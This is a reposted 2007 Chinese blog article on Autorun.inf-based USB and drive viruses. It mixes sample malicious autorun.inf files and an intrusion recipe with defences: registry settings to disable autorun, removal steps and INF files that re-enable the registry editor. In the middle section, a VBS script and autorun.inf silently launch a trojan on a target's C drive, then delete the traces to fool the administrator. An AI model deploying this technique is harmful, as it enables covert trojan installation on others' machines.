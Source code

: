 ```yaml
---
title: 病毒的Autoruninf新写法与应用以及防御
description: 首先是Autoruninf一般的病毒的Autoruninf文件内容为[autorun]open=.RECYCLERRECYCLERautorun.exeshell1=Openshell1Command=.RECYCLERRECYCLERautorun.exeshell2=Browsershell2Command=.RECYCLERRECYCLERautorun.exeshellexecute=.RECYCLERRECYCLERautorun.exe........................
date: 2007-09-08 12:15:05
category: 技术文章
tags: ['技术类', '安全', '病毒Virus', 'Autoruninf']
post_id: 155
alias: VirusAutorunInf
ViewNums: 6328
---
```


在[zj1244小葵&职业欠钱的blog](http://xdxf.cn/)上看到的，感觉不错，转之~

首先是Autoruninf
一般的病毒的Autoruninf文件内容为
[autorun]
open=.RECYCLERRECYCLERautorun.exe
shell1=Open
shell1Command=.RECYCLERRECYCLERautorun.exe
shell2=Browser
shell2Command=.RECYCLERRECYCLERautorun.exe

shellexecute=.RECYCLERRECYCLERautorun.exe
它的效果是当双击打开盘时.会运行RECYCLERRECYCLERautorun.exe文件,用右键打开,会显示Open,Browser.
还有一种是
[autorun]
OPEN=SVCH0ST.EXE
shellopen=打开(&O)
shellopenCommand=SVCH0ST.EXE
shellopenDefault=1
shellexplore=资源管理器(&X)
shellexploreCommand=SVCH0ST.EXE
对于这种U盘病毒，无论右键选择“打开”还是“资源管理器”病毒都会运行。
一种利用Autoruninf提权的方法（转）
以前看过很多关于Autoruninf的利用文章,网上全是千篇一律,互相模仿.我再来添点东西吧~

还是先简单说下原理吧.写一个Autoruninf文件,放在对方某一盘符下,当管理员双击此盘时,就会执行Autoruninf指定的文件了.一般用在入侵时没有运行权限时,欺骗管理员帮你运行..

以前我在网上看到的都是一个模式

[AutoRun]

open = 你想运行的程序

先不说这样运行是不是成功的,稍微想一下,就知道有问题,人家管理员不是傻子,这样双击是打不开盘符的,人家肯定知道出问题了,所以你玩不长的..

事实上那个文件在我机子是运行不起的,网上也没找到解决办法,相信还有很多人和我遇到过同样的问题,求人不如求已,自己搞定吧.

也不难,只要这样写就OK了:

[AutoRun]
open=AutoRun.exe
shellexecute=AutoRun.exe
shellAutocommand=AutoRun.exe

这样,你把它保存为一个.inf文件,放在C盘下,AutoRun.exe为你指定的运行程序.这样双击C盘就可以成功运行了.前面还说过一个问题,就是C盘打不开,很容易就被管理员发现了,有待改进.下来就说怎么解决这个问题,GO ON!

其实这个实现起来也不难,先把Autoruninf上传至对方C盘,我们可以做一个自解压包,也放在C盘根目录下,让他成为我们的指定运行文件,里面包含我们要运行的程序,比如木马,还一个VBS脚本,自解压包执行后先让他执行VBS脚本,内容如下:
```
set yu=wscript.createobject("wscript.shell")
yu.run "cmd /c start WINLOG0N.exe",0
yu.run "cmd /c del Autoruninf",0
yu.run "cmd /c start c:",0
yu.run "cmd /c del AutoRun.vbs",0
```
我再简单解释下,解压后VBS帮我们运行winlogon.exe(我配置好的木马),然后删掉Autoruninf,为什么要删掉它,第一,减少被发 现的机会,二,删掉它,管理员重启机子或注销后如果右键点击盘复符不会出现"播放",一切恢复中马前的状态,当然之前我们的木马已经运行了.第四行代码: 我们为他打开C盘,最后再删掉vbs脚本自身.

这样改进后个人觉得安全性大大提高了.呵呵..各位在测试的时候只须把上面脚本中的 WINLOG0N.exe改为自己的木马就可以了.winxp sp2下测试成功。
防治方法
其实这个文件不是病毒。也是用来打开病毒了。防治它的思路有两种：一是禁用自动播放，二是删除它，三是阻止它生成。
1。在Windows系统有允许和阻止自动运行的键值的方法：

　　 在注册表中找到如下键：

键路径：[HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionPoliciesExploer]

在右侧窗格中有 "NoDriveTypeAutoRun"这个键决定了是否执行Autorun功能.其中每一位代表一个设备,不同设备用以下数值表示:

设备名称 第几位 值 设备用如下数值表示 设备名称含义
DRIVE_UNKNOWN 0 1 01h 不能识别的类型设备
DRIVE_NO_ROOT_DIR 1 0 02h 没有根目录的驱动器
DRIVE_REMOVABLE 2 1 04h 可移动驱动器
DRIVE_FIXED 3 0 08h 固定的驱动器
DRIVE_REMOTE 4 1 10h 网络驱动器
DRIVE_CDROM 5 0 20h 光驱
DRIVE_RAMDISK 6 0 40h RAM磁盘

其中： 保留 7 1 80h 　未指定的驱动器类型

以上值"0"表示设备运行，"1"表示设备不运行。
从上面可以看出，对应的DRIVE_NO_ROOT_DIR、DRIVE_FIXED、DRIVE_CDROM、DRIVE_RAMDISK是可以自动运 行的。所以要禁止硬盘自动运行Autoruninf文件，就必须将DRIVE_FIXED这些键的值设为1，由于DRIVE_FIXED代表固定的驱动 器(即硬盘)。如果仅想禁止软件光盘的AutoRun功能，但又保留对CD音频碟的自动播放能力，这时只需将“NoDriveTypeAutoRun”的 键值改为：BD,00,00,00即可。
     还有就是通过组策略关闭自动播放，但是在有些版本window xp 中不存在哪个策略。
2。为了防止Autoruninf的生成，我们可以在u盘根目录下创建一个名字是Autoruninf的文件夹。
3。我们可以选择在dos下删除文件，但是在通常情况下Autoruninf有系统，隐藏，只读属性。所以应该先去掉这些属性之后再删除文件。具体方法如下：
开始---运行---cmd（打开命令提示符）
D: dir /a a* （没有参数A是看不到的，A是显示所有的意思）
此时你会发现一个Autoruninf文件，
attrib Autoruninf -s -h -r 去掉Autoruninf文件的系统、只读、隐藏属性。然后就可以删除了
del Autoruninf
二.常见的病毒
通过autorun文件可以打开任何文件，所以很难讲什么是常见的。我所觉得有趣的是，运行病毒之后，病毒的自我保护方法。比如说存在保护程序，禁用注册表，禁用显示隐藏文件选项或文件夹选项。隐藏进程等等。
1。注册表的禁用与解用。

最好的方法是下载个注册表修复工具
你先到这里看看瑞星的注册表修复工具<http://it.rising.com.cn/service/technology/RegClean_download.htm>
如果仍然不能解决请按1楼的方法试试
假如"运行"被禁止掉那么请用下面介绍的方法

注册表编辑器已被禁用，我们用INF文件来解除。那么我们可以在记事本里写入下面的内容：
```
[Version]
Signature="$Windows NT$"

[DefaultInstall]
ADDREG=Myadd

[Myadd]
;解禁注册表编辑器
HKCU,SoftwareMicrosoftWindowsCurrentVersionPoliciesSystem,DisableRegistryTools,1,0
```
然后把文件另存为一个INF文件，右击文件----点“安装”就可以啦^O^
我们可以看到第一个语段，在Signature后面的签名"$Windows NT$"它是指明我的操作系统是NT的，如果你的操作系统是98的在后面的签名中应该写"$CHICAGO$"。
再看第二个语段，等号左边的“ADDREG”是不能更改的，等号右边的内容就随你的心情啦，但是有一点要注意，就是要与在第三个语段中使用的语句保持一致。另外还有一项操作是“DELREG”(删除键)和“ADDREG”的用法一样，后面介绍。
好了，这回各位看观是不是想要跃跃欲试了呢，不要着急，好像还有一点和REG文件不一样噢，呵呵我看出来了，就是在文件的最后，怎么有“，”(注：逗号)。还有“HKCU”这些都是什么呀？
这就是与REG文件不一样的格式啦。
“HKCU”指的是注册表中的根键，其中“HKCU”是“HKEY_CURRENT_USER”的缩写，其它的还有“HKCR”--- “HKEY_CLASSES_ROOT”、“HKLM”----“HKEY_LOCAL_MACHINE”、“HKU”---- “HKEY_USERS”、“HKCC”----“HKEY_CURRENT_CONFIG”、“HKDD”----“HKEY_DYN_DATA”。如 果你想要对哪个根键操作那么就可以按照上面的缩写对号入座了。
“，”(注：逗号)，它是根键与子键、子键与键名、键名与键类型、键类型与键值的分割符。
在具体修改注册表键值语段的格式为：根键，子键，键名，键类型，键值(注：中间的逗号不能省略)。
上面这个文件中我们知道其实要修改的是DisableRegistryTools键，把它的值改为“0”。它的类型为DWORD(双字节)，在INF文件 有关注册表的操作中有字符串类型(用“0”表示)和二进制类型(用“1”表示)，在网上没有找到INF文件表示双字节类型的资料，望知道的人补充。在这里 我们直接用二进制类型就可以了，所以大家看到在键类型的位置上是个“1”，最后是要修改的键值“0”。
前面提到“DELREG”它是删除键值的操作，如果要想把DisableRegistryTools键删除的话可以这样写：
```
[Version]
Signature="$Windows NT$"

[DefaultInstall]
DELREG=Mydel

[Mydel]
;删除DisableRegistryTools键
HKCU,SoftwareMicrosoftWindowsCurrentVersionPoliciesSystem,DisableRegistryTools
```
就是省略掉键类型和键值字段，最后把这个文件另存为一个INF文件，右击文件----点“安装”就可以了。
好了，不知道各位看观是不是看明白了，没看明白也没关系，我写了一个，大家只要把下面的内容复制到记事本中，然后把这个文件另存为一个INF文件，最后右 击文件----点“安装”就可以了。(注：这个文件可以解决前文中所提到问题，只能在NT系统中使用，主页会被改成20CN的首页，嘻嘻做个广告啦 ^O^)。

-----------------------------------------------------------------------------------
```
[Version]
Signature="$Windows NT$"

[DefaultInstall]
ADDREG=Myadd

[Myadd]
;解禁注册表编辑器
HKCU,SoftwareMicrosoftWindowsCurrentVersionPoliciesSystem,DisableRegistryTools,1,0
```
2。显示出被隐藏的系统文件

运行——regedit
```
HKEY_LOCAL_MACHINESoftwareMicrosoftwindowsCurrentVersionexplorerAdvancedFolderHiddenSHOWALL，将CheckedValue键值修改为1
```
这里要注意，病毒会把本来有效的DWORD值CheckedValue删除掉，新建了一个无效的字符串值CheckedValue，并且把键值改为0！我 们将这个改为1是毫无作用的。（有部分病毒变种会直接把这个CheckedValue给删掉，只需和下面一样，自己再重新建一个就可以了）

方法：删除此CheckedValue键值，单击右键 新建——Dword值——命名为CheckedValue，然后修改它的键值为1，这样就可以选择“显示所有隐藏文件”和“显示系统文件”。

在文件夹——工具——文件夹选项中将系统文件和隐藏文件设置为显示。

更多请参见：[**Autoruninf**完全操作手册](/blog/autoruninf-handbook)

